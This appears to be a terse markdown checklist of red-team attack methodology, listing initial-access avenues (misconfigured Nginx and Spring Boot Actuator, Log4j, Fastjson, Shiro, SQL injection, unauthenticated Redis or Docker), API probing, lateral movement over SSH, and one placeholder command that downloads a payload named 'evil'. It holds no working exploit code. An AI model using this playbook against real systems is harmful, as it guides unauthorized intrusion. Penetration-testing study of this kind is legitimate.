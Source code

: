 ## Initial Access
### 1. Misconfigure
- Nginx config
  - files: config / history / codes / authorization /
  - upload

- Spingboot Actuator
- Cloud Service

### 2. Vulnerability
- SQL Injection : [clickhouse](https://blog.deteact.com/yandex-clickhouse-injection/)
- Open-source Nday:
  - Fastjson
  - Log4j
  - Shiro
- Third-party products Nday:
- XSS : POST / DOM 
- File upload : 

### 3. API Pentest
- sensitive APIs in js files
- path brute-force : wordlists

### 4. Open Port
- high-risk brute-force
- sensitive ports
  - Unauthorization Access: Redis, Mongodb, Etcd, Rsync, Kafka, Zookeper, [Docker](https://askding.github.io/Kali/Exploit/Docker.html), Haddop
  - Specific scene : [IOT](https://cloud.tencent.com/developer/article/1776815)
- JRMP/[JMX](https://www.anquanke.com/post/id/200682)/RMI 


## Execution
- curl xxx/xx -o evil
- 

## Lateral move
- trust relationship : ssh
- portscan : ssh/redis/web
- 


## Tips
- Knowledge the environment like a new-bie
- Intranet assets : code hosting platform / management platform / 



## Reference
- [RedTeam-Tools_github](https://github.com/A-poc/RedTeam-Tools)
